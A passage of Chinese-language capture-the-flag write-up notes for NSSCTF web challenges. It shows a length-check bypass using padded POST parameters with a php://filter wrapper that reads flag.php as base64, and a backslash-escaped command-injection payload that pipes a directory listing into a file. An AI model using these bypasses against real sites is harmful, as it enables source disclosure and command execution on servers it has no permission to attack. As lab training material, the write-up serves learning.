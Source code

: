 注意到**strlen(file_get_contents('php://input')) < 800**

于是我们让读取的长度大于800

```
1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&flag=php://filter/read=convert.base64-encode/resource=flag.php
```

![image-20250804155907854](./NSSCTF-3.assets/image-20250804155907854.png)

# [SWPUCTF 2021 新生赛]finalrce

![image-20250804160932478](./NSSCTF-3.assets/image-20250804160932478.png)

```
/?url=l\s / |tee 1.txt
```
